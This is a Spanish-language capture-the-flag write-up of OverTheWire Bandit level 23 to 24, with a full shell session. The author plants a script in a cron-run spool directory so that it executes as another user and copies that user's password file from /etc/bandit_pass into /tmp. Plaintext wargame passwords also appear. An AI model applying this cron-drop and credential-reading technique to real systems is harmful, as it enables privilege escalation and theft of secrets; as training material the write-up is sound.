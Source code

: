 # Bandit
## Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...

## Datos de acceso
**Usuario:** bandit23
**Contraseña:** QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion

``` shell
ssh bandit23@bandit.labs.overthewire.org -p2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

bandit23@bandit:~$ ls -la /etc/cron.d
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  8 12:09 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.ssh
cat: /usr/bin/cronjob_bandit24.ssh: No such file or directory
bandit23@bandit:~$ mkdir /tem/mino20
mkdir: cannot create directory ‘/tem/mino20’: No such file or directory
bandit23@bandit:~$ mkdir /tmp/mino20
bandit23@bandit:~$ cd /tmp/mino20
bandit23@bandit:/tmp/mino20$ echo "cat /etc/bandit_pass/bandit24 > /tmp/mino20/password" > mino20.sh
bandit23@bandit:/tmp/mino20$ cat mino20
cat: mino20: No such file or directory
bandit23@bandit:/tmp/mino20$ cat mino20.sh
cat /etc/bandit_pass/bandit24 > /tmp/mino20/password
bandit23@bandit:/tmp/mino20$ chmod 777 mino20.sh
bandit23@bandit:/tmp/mino20$ touch password
bandit23@bandit:/tmp/mino20$ ls -la
total 332
drwxrwxr-x   2 bandit23 bandit23   4096 Sep 26 00:26 .
drwxrwx-wt 300 root     root     327680 Sep 26 00:22 ..
-rwxrwxrwx   1 bandit23 bandit23     53 Sep 26 00:24 mino20.sh
-rw-rw-r--   1 bandit23 bandit23      0 Sep 26 00:26 password
bandit23@bandit:/tmp/mino20$ chmod 666 password
bandit23@bandit:/tmp/mino20$ cp mino20.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/mino20$ date
//esperamos de perdido un minito para que se copie el contenido
Mon Sep 26 12:34:44 AM UTC 2022

bandit23@bandit:/tmp/mino20$ cat password

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
## Notas adicionales
fijate en los /usr/bin/cronjob_bandit24.sh cuando se haga el cat /etc/cron.d/cronjob_bandit24 ya que ahi nos decia al tiempo en que se tardaria en copiar la contraseña.

## Referencias

## Comandos que puedes necesitar para resolver este nivel
cron, crontab, crontab(5) (use “man 5 crontab” to access this)